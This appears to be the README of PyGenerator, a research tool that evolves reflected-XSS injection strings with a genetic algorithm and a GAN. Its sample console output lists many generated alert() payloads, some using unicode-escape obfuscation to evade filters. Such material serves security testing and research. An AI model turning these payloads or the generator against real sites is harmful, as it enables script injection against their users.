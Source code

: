 ## PyGenerator using Genetic Algorithm and Generative Adversarial Networks.

PyGenerator can generate injection codes for web app vulnerabilities.  
There are many different types of web app vulnerabilities, but PyGenerator has targeted reflected XSS in this version.  
ex) `<iframe/onload=alert();>size=<command`, `<video><source onerror=javascript:alert();>kind=`

[more info](http://www.mbsd.jp/blog/takaesu_index.html)

## Description

PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

1. Generation of injection codes using GA.
2. Augment injection codes using GAN.

#### 1. Generation of injection codes using GA.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)).  
Gene list is minimum components of HTML and JavaScript.  
ex) <img/, src=, xxx, onerror=, alert();, />, etc.  

And, you execute `ga_main.py` as the following.  

```
Generator>python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

・・・

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
・・・
```
In this result, a few injection codes are generated by GA.  
Injection codes are represented using combination of gene numbers (5 dimensional vector).  
ex) <149, 2, 180, 206, 164>,  

#### 2. Augment injection codes using GAN.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)) and train data generated by GA (ex. [train data](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/signature/xss_list.csv)).  

And, you execute `gan_main.py` as the following.  

```
Generator>python gan_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

(14176L, 'train samples')
('Number of batches:', 443)
epoch: 0, batch: 0, g_loss: 0.704642, d_loss: 0.711084
[ 115.  118.  103.  112.  100.] : </label></meter></track></keygen></font>
[ 124.   99.  127.  106.  101.] : </progress><font/</select></button><track 
[ 112.   91.  107.  106.   90.] : </keygen></ins><fieldset </button><ins/
[ 115.  102.  142.   78.  125.] : </label><track/type="text/x-scriptlet" <meta/<select 
[ 121.  106.  107.  111.   95.] : </output></button><fieldset <keygen/<basefont 

・・・

epoch: 79, batch: 117, g_loss: 2.015308, d_loss: 0.561763
[   0.  182.    1.    5.   21.] : <script>onerror=\u0061lert();</script><isindex/<iframe/
[   0.  191.    1.    3.   14.] : <script>onload=alert();</script><video><source/<img/
[   0.  193.    1.    3.   12.] : <script>onmouseover=alert();</script><video><source/<option/
[   0.  181.    1.    3.   22.] : <script>onerror=javascript:alert();</script><video><source/</iframe>
[   0.  183.    2.    5.   28.] : <script>onerror=al\u0065rt();<video><source <isindex/<svg/
・・・
```
In this result, many injection codes are generated by GAN.  

## Requirement libraries
* pandas
* requests
* selenium

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3

## Inquiry
[takaesu235@gmail.com](<takaesu235@gmail.com>)

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Author

[Isao Takaesu](https://github.com/13o-bbr-bbq)
